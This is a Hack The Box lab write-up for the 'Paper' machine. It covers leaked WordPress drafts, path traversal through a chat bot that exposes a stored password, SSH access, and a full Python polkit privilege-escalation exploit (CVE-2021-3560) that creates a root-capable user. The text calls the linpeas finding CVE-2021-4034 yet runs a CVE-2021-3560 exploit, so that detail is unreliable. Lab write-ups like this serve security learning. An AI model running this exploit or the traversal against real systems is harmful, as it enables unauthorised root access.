






## Hack the box Machine writeups

### Paper

When we first load up the challange we see an http template website telling us the website had not been setup properly

I setup the ip in my hosts file, i belive the solution i show wont work if you dont do that



If we look into the headers of the page we notice an interesting field `X-Backen-Server: office.paper`, after visiting setting it up in the hosts file and visiting the new webpage we see something new



It seems to be a blog site that had been taken down for unkowen reasons, if we dig arround a bit we find some comments about drafts with confredential data, this is what we might exploit soon

```
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
-Nick
```

If we scroll to the bottom of the page we see that its build on wordpress, this makes a wordpress scan a good suggestion



The output tells us that the version of wordpess running on the server is out of date and is insecure

By doing a quick internet search we find that we can type `/?static=1` in the URL bar to view unpublished drafts

One of them contains a URL to some new emploiee chat system 

```
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.
```

Very interesting to look at, so hey! Why dont we do that

Here we get redirected to a registration form, when we registre we are greeted in a chat called "General"



If we scroll up a bit there is a bot called recyclops, here is what he sais

```
 kellylikescupcakes Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

We can dm this bot with commands such as list, doing so returns us a list of files and directories

```
>> list

Fetching the directory listing of /sales/
total 8
drwxr-xr-x 4  dwight dwight 32 Jul 3 2021 .
drwx------ 13 dwight dwight 4096 Apr 26 08:39 ..
drwxr-xr-x 2  dwight dwight 27 Sep 15 2021 sale
drwxr-xr-x 2  dwight dwight 27 Jul 3 2021 sale_2
```

It shall be noted we cant inject shell commands, sadly :(

We can also tell him to list specific folders such as sale or sale\_2, if we look at the output he gave us we can also try to get out of our current dictionarry using something such as ../

```
>> list ../

total 64
drwx------ 13 dwight dwight 4096 Apr 26 08:39 .
drwxr-xr-x. 3 root root 20 Apr 26 08:42 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw-rw-r-- 1 dwight dwight 0 Apr 26 08:34 cve-2021-4034.c
-rw------- 1 dwight dwight 9 Apr 26 04:59 .dbshell
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwxrwxr-x 2 dwight dwight 27 Apr 26 04:03 exploit
-rw-rw-r-- 1 dwight dwight 2434 Apr 26 08:31 ex.py
-rwxrwxr-x 1 dwight dwight 306 Apr 26 08:33 ex.sh
drwxrwxr-x 2 dwight dwight 21 Apr 26 04:03 GCONV_PATH=.
drwx------ 3 dwight dwight 69 Apr 26 04:59 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
-rwxr-xr-x 1 dwight dwight 431 Apr 26 04:03 payload.so
-rw-rw-r-- 1 dwight dwight 0 Apr 26 08:35 pwnkit.c
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 Apr 26 01:51 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
-rw------- 1 dwight dwight 2089 Apr 26 08:17 .viminfo
-rwxrwxr-x 1 dwight dwight 2434 Apr 26 08:39 xe.py
```

We see a lot of exploits, interesting to see its not been cleaned for a while, what is currently interesting are the following files: `users.txt` (likely where the flag is as we dont have read permissions), `hubot` Could this be the sourcecode of the bot? Lets see!

```
>> list ../hubot

total 152
drwx------ 8 dwight dwight 4096 Sep 16 2021 .
drwx------ 13 dwight dwight 4096 Apr 26 08:39 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 26061 Apr 26 11:10 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 2021 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 2021 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock
```

After snooping a bit arround in this directory we find the file called .env, enviomental variables?

```
>> file ../hubot/.env
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

```
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

Using this we tried to login as the bot tho on rocketchat and wordpress tho it did not allow us

After a while we thougt to look at ssh and sshing into the server, using recyclops did not work so we tried dwigth (the apparent creator of the bot) where we were successfull



And catting users.txt does indeed show us the first flag

#### Part Two, Getting root privilages

After running linpeas.sh on the server we can clearly see a warning about `cve-2021-4034` being a privilage escallation exploit *i like*

We run the following code

```py
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
        counter = counter +1
        process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
        try:
                #print('1 - Running in process', process.pid)
                Random = random.uniform(0.006,0.009)
                process.wait(timeout=Random)
                process.kill()
        except subprocess.TimeoutExpired:
                #print('Timed out - killing', process.pid)
                process.kill()

        user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
        if user.find("uid") != -1:
                print("[+] User Created with the name of ahmed")
                print("[+] Timed out at: "+str(Random))
                check =False
                break
        if counter > 2000:
                print("[-] Couldn't add the user, try again it may work")
                sys.exit(0)


for i in range(200):
        #print(i)
        uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

        #In case you need to put a password un-comment the code below and put your password after string:yourpassword'
        password = "string:"
        #res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
        #password = f"string:{res.rstrip()}"

        process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
        try:
                #print('1 - Running in process', process.pid)
                Random = random.uniform(0.006,0.009)
                process.wait(timeout=Random)
                process.kill()
        except subprocess.TimeoutExpired:
                #print('Timed out - killing', process.pid)
                process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)

```

And now we have administrative privilages, if we navigate to `/root` we see a file `root.txt` witch is where our flag is located


